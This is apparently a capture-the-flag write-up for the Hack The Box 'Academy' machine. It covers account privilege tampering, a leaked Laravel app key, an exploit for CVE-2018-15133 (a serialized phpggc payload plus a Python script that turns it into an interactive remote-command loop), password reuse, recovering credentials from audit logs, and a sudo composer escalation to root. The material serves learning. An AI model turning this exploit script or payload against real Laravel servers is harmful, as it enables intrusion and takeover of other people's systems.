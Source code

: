 ```yaml
---
title: Academy HTB
date: '2021-02-27 17:00:00'
author: fuxsocy
description: Academy By Fuxsocy
image: 
    path: '/assets/img/academy.png'
categories: ["htb"]
---
```


# Academy 🎓

First scan of nmap we have 2 ports open.

![nmap_Scan](https://user-images.githubusercontent.com/16364370/101256498-4cf78f00-3717-11eb-891d-87762c005e07.png)

Visiting the website we are redirected to a domain name: academy.htb
I add this to my /etc/hosts file and then visit again. I have a front page with no function at all. But I have 2 options to goto, one is login and the one is register. Upon visiting I have a form in which I can create a user. I try admin:admin and I am being redirected to a page which greats me with Welcome and then redirects me to the login page. I login and get to the front page.

{home.php photo page}

I can see that I am not loggedin as the username I entered the credentials for. I goto register again and add another user but again I am logged in as egre55. 

I add a ffuf scan to find potential directories and files. The website has no working functionality at all. 

![ffuf](https://user-images.githubusercontent.com/16364370/101256462-4a953500-3717-11eb-8cf6-55321f831a49.png)

I found found a file admin.php. I am provided a login form again. Trying the same credentials I tried on login.php I cannot login. After looking about potential ways to bypass admin.php or trying to find the credentials by using ffuf. I opened burp and intercepted every request made to login,register,admin and other parts of the website. 

![register](https://user-images.githubusercontent.com/16364370/101256517-4e28bc00-3717-11eb-9e5d-0b520aaad213.png)

On register page I there are 4 parameters the {uid,password,confirm,roleid=0}. The roleid was by default set to 0, when I see a parameter as 0 I think of this as false or as lower privilages in this case. Every time we created a user we sent this parameter as 0, lets try to create a user and set it as 1, and then try to login to admin.php.

![admin](https://user-images.githubusercontent.com/16364370/101255951-1b7ec380-3717-11eb-8d6d-a31f2f6a20f0.png)

So this is a planner they have for the academy.htb page which isn't yet functionaly. Everything is set as done except one which is pending. I add that subdomain on my /etc/hosts file again and visit the website.

![dev_staging_01_error_log](https://user-images.githubusercontent.com/16364370/101255999-1faae100-3717-11eb-9c27-75454bcf5ce8.png)


We have a lot of errors. One of the errors is about laravel logs. Laravel is a php framework. At my right I also have some enviroment information and details. I also have mysql username and password. I try to login with those to ssh but nothing. mysql port is closed so I didn't try them with mysql. I am left with nothing but to search about laravel vulnerabilities. I didn't manage to find the exact version of it so I tried every exploit I could find of. 
This repo https://github.com/kozmic/laravel-poc-CVE-2018-15133 had one exploit that worked. To make this work we need the app_key which we got from the website error. If we didn't have we couldn't use it. 

Following the repo instructions we have to:
* Install phpgcc (sudo apt install phpgcc)
** Generate an unserialized payload `phpgcc Laravel/RCE1 system 'id'`
* Encrypt the payload with the app_key using ./cve-2018-15133.php dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MTU6IkZha2VyXEdlbmVyYXRvciI6MTp7czoxMzoiACoAZm9ybWF0dGVycyI7YToxOntzOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1zOjg6IgAqAGV2ZW50IjtzOjg6InVuYW1lIC1hIjt9
* Send the previous string as a X-XSRF-TOKEN header

I created a simple script to do this for me so I can execute commands faster.

_automatecve2018-15133.py:_

```
import requests,subprocess,base64,re

from bs4 import BeautifulSoup
app_key = "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
url = "http://dev-staging-01.academy.htb/"



while(1):
    command = input("Enter command: ")
    phpggc = subprocess.Popen(["phpggc", "Laravel/RCE1", "system", command], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    gadget = phpggc.stdout.read()
    encodedgadget = base64.b64encode(gadget)
    cve = subprocess.Popen(["./cve-2018-15133.php", app_key, encodedgadget], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    token = cve.stdout.read()
    token = token.decode("utf-8")
    payload = re.findall(r"TOKEN:(.*?)\n", token)[0]
    headers = {'X-XSRF-TOKEN':payload.strip()}
    r = requests.post(url, headers=headers)
    html = BeautifulSoup(r.text, 'html.parser').prettify()
    print(html.split('\n')[0])
```

I use the script and execute a reverse shell on my machine. I am logged in as www-data. I try to look into config files located at /var/www/ to find any potential passwords to databases. On laravel web applications these information are stored inside .env file. Beside the .env file I saw for the dev staging subdomain I find another inside the academy folder. This time I have a password `mySup3rP4s5w0rd!!`. Mysql is opened but I cannot login with these credentials. I cat the `/etc/passwd` file and find the users on the machine and try the password against each user. 

![cry0l1t3su](https://user-images.githubusercontent.com/16364370/101255992-1f124a80-3717-11eb-8b21-3725293ee843.png)

cry0l1t3 is the user which reused the password and got pwned :D. Now I run lineum script but didn't manage to find anything useful. After more than half an hour of trying to find something juicy I find out that I belong to adm group. As per https://wiki.debian.org/SystemGroups `adm: Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log`. I go and search on /var/log folder for passwords or anything similar which can give me more info to go near root user :D. After some help from my friend [suljot](https://pi0x73@github.io), I found out commands are logged inside audit folder and are encoded as hex. Each command has `type=TTY`, so I can all the files and grep that. 

`cat /var/log/audit/* | grep 'type=TTY' > /tmp/a`
`cat /tmp/a | awk -F'data=' '{print $2}' | xxd -r -p > tty`
`less tty`
![mrb3n](https://user-images.githubusercontent.com/16364370/101256491-4c5ef880-3717-11eb-9a88-9e11c91e88a8.png)

The password works with user mrb3n. This user can run composer as root. I go and find a way on [gtfobins](https://gtfobins.github.io/gtfobins/composer/#sudo) and get root.
![composerroot](https://user-images.githubusercontent.com/16364370/101255975-1de11d80-3717-11eb-91c4-7032e3fed47e.png)
